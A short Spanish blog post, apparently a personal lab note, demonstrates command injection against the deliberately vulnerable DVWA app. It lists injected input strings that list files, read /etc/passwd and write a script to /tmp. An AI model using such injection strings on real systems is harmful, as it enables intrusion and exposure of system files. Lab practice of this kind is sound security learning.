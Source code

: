 ```yaml
---
typora-copy-images-to: ../assets/img/
typora-root-url: ../
layout: post
title:  "Command injection"
categories: jekyll update
---
```


## Comand injection

Realizaremos algunas injecciones de comandos en DVWA.

Listar ficheros:

`127.0.0.1; ls;`

![ci_ls](/assets/img/ci_ls.png)



Mostrar el contenido de passwd:

`127.0.0.1; cat /etc/passwd;`

![ci_passwd](/assets/img/ci_passwd.png)

<br>

Agregar un posible script en el directorio /tmp/:

`127.0.0.1; echo "posible script" > /tmp/prueba.sh;`

![ci_script](/assets/img/ci_script.png)

<br>

`172.0.0.1; cat /tmp/prueba.sh`



![ci_script2](/assets/img/ci_script2.png)